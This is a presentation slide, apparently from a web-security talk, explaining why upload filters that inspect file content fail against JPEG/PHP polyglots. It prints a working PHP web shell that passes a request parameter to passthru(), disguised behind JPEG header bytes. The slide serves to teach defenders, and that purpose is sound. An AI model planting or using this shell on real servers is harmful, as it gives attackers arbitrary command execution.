

# Unsafe Upload Mitigations (that don’t work)
Inspect the file
Polyglots are scripts or code that is valid for multiple languages or schemas
A JPEG/PHP polyglot, for example, is a file with a valid JPEG header and valid PHP code
command.php:
ÿØÿà
<form action="" method="get">
	Command: <input type="text" name="cmd" /><input type="submit" value="Exec" />
</form>
Output:<br />
<pre><?php passthru($_REQUEST['cmd'], $result); ?></pre>
ÿØÿà = 0xffd8 0xffe0 = JPEG Start of Image marker (JPEG File Structure)